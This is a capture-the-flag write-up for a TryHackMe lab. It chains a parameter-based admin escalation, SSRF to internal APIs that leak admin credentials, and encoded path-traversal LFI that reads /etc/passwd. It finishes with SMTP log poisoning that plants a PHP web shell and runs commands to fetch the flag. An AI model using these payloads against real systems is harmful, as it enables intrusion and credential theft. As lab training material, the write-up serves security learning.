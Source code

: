 # TryHackMe

**Steps to Reproduce**

**🔹 Reconnaissance and Service Enumeration**

The first step in the assessment was conducting a port scan to identify open services using **Naabu** and **Nmap**.

<aside>
💡

naabu -host < target  >

</aside>

![naabu.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/naabu.png)

This show  No open ports were detected for the web application.

To obtain more details, an **Nmap** scan was performed:

<aside>
💡

nmap -sV -sC -Pn < target > -oN <file_name>

</aside>

![all.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/all.png)

This detect there exist 2 open ports to access web server 

**🔹 Web Application Analysis**

**Accessing the First Web Application (Port 50000)**

![50000.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/50000.png)

![login1.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/login1.png)

Attempting to log in using the default credentials (`admin:admin`) was unsuccessful. Additionally, SQL Injection attempts to bypass authentication failed.

![error.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/error.png)

**Accessing the Second Web Application (Port 4000)**

![4000.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/4000.png)

A new login attempt was made using `guest:guest`, which was successful.

![index_4000.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/index_4000.png)

![de.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/de.png)

Upon logging in, the **View Profile** section was analyzed. A key parameter **`isAdmin`** was found, indicating potential privilege escalation. Since the only available input field was in the **Recommend an Activity** section, various payloads were tested.

![tesr1.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/tesr1.png)

This Redirect to the /friend/1 and add test:test

![res.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/res.png)

![before.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/before.png)

<aside>
💡

activityType=isAdmin&activityName=true

</aside>

![after.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/after.png)

yes, Successfully elevated privileges.

![api.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/api.png)

Upon further analysis of the application settings, a feature allowed users to update the **Banner Image** by providing a URL. This indicated a possible **Server-Side Request Forgery (SSRF)** vulnerability

![settings.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/settings.png)

Initial SSRF attempts:

<aside>
💡

url=http://127.0.0.1:5000

</aside>

 this only return **Internal Server Error** 

then use url=http://127.0.0.1:5000/internal-api this return 302 found and redirect into admin/settings

![firsr.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/firsr.png)

let’s decode this by burp Decoder

![super.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/super.png)

this detect it’s very confidential information. but we need username and password for admin to access into  SysMon app so I try another endpoint

url=`http://127.0.0.1:5000/getAllAdmins101099991`

this return another encode data 

![data_admin.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/data_admin.png)

let’s decode this 

![secrerrrrt.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/secrerrrrt.png)

yes, it’s contain very important data that can use it to access into SysMonApp and ReviewApp

let’s return into SysMonApp and login to see what exist

![flag_1.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/flag_1.png)

Boom, we get first Flag, after this make fuzz to discover hidden files or directories by fuff

```bash
$ ffuf -u <target> -w < wordlist> 
I use  /usr/share/wordlists/dirb/common.txt
```

![hidden_dir.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/hidden_dir.png)

I check  uploads  directory

![uploads.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/uploads.png)

this show that store profile image so I search for endpoint that allow to me to upload image 

so I Inspect image and see 

<aside>
💡

profile.php?img=profile.png

</aside>

![image.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/image.png)

**Testing LFI:**

<aside>
💡

profile.php?img=../../etc/passwd

</aside>

that not success then try bypass it by null bytes
`/.%00./.%00./etc/passwd` and this not success so I try another techique

…./…./…./etc/passwd and not success  

finally I try chain with local file Inclusion and use url encoding

<aside>
💡

profile.php?img=....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd

</aside>

yes, its success 

![result.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/result.png)

now we need to do RCE so I used this reference that help me to ****LFI to RCE via SMTP Log File Poisoning techiques 

[https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet)

**Steps to Achieve RCE:**

1. open a Telnet session to the target’s SMTP service as it’s open:
    
    <aside>
    💡
    
    telnet <  target_ip > 25
    
    </aside>
    

1. inject a malicious PHP payload:
    
    <aside>
    💡
    
    MAIL FROM: <toor@gmail.com>
    
    REPT TO : <?php  system($_GET[’c’] ) ; ? >
    
    </aside>
    
    ![mail.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/mail.png)
    

3.Execute the command :

<aside>
💡

http://<target_ip>:50000/profile.php?img=....%2F%2F....%2F%2Fvar%2Flog%2fmail.log&c=id

</aside>

![request.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/request.png)

![response.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/response.png)

**it’s success let get the flag**

show files and directories

<aside>
💡

http://<target_ip>:50000/profile.php?img=....%2F%2F....%2F%2Fvar%2Flog%2fmail.log&c=ls

</aside>

![lscommand.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/lscommand.png)

![files.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/files.png)

**use this command to show content of files**

<aside>
💡

c=cat${IFS}505eb0fb8a9f32853b4d955e1f9123ea.txt

I use ${IFS} to remove space 

</aside>

![rootFlagyessss.png](TryHackMe%2018047c97d4b381cea484e5e20b81d537/rootFlagyessss.png)